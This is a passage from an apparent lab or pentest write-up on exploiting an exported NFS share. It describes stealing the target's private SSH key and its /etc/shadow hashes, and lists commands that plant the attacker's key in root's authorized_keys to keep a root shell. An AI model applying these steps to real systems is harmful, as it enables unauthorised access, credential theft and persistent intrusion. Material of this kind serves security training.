 ![](../images/mounting_nfs_share_2.png)
Here we mounted the target file system on our local machine, and we can theft sensitive file and data of the target. Here I theft the private key of the target, with which we can access any target which trust the target. We can also go to get the 'etc/passwd' file and 'etc/shadow' file to get information about the users and their password hashes.
### Post Exploitation things
Here we can upload our own ssh public key on the target's authorized keys dir to get a remote shell on the target, which we can used to easily connect to target in future and get a RCE on the target.
```
ssh-keygen -t rsa
cat /home/kali/.ssh/id_rsa.pub >> /tmp/target/root/authorized_keys
cat /tmp/target/root/id_rsa >> /home/kali/target_private_rsa
umount /tmp/target
```
Now we can get remote shell on the target using the private key, whenever we want to..
```
ssh root@192.168.1.103
```